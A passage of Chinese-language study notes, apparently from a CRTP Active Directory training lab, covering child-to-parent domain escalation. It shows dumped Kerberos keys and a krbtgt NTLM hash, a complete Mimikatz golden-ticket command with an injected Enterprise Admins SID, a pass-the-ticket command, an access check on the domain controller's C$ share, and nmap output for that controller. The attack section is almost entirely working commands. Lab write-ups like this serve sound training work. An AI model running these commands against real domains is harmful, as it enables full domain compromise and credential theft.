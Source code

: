     * 2/22/2022 1:47:50 AM - CLEAR   - 98 92 74 31 9d 75 ef 06 71 30 f4 23 88 78 d0 8c 63 e6 a1 c4 d3 1d ea c0 81 ea f4 f8
        * aes256_hmac       bcd2a265b3f6626193662328115b78823de5ef3e5d11bcefac08f311e6cfca24
        * aes128_hmac       ac4ab1dc6a1477d36ee37aea2ad48396
        * rc4_hmac_nt       925c2b6bf5771525b47a4a20d624b463
```

krbtgt的NTML信息
```
krbtgt:ff46a9d8bd66c6efd77603da26796f35
```

生成一个用户访问TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-3146393536-1393405867-2905981701-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\krbtgt_p2c_tkt.kirbi"'
```

下面命令把TGT注入到mimikatz中
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\krbtgt_p2c_tkt.kirbi"'
```

使用下面两个命令之一验证上面操作是否成功

```
ls \\us-dc.us.dollarcorp.moneycorp.local\c$
```

会报错。

跟助教沟通，CRTP的这个lab环境不允许访问子域的DC。但是上面的方法应该是没错的。

```
C:\Windows\system32>nmap -sV -Pn 172.16.9.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-22 23:28 Pacific Standard Time
Nmap scan report for 172.16.9.1
Host is up (0.0018s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-02-23 07:28:42Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: moneycorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: us)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: moneycorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: US-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
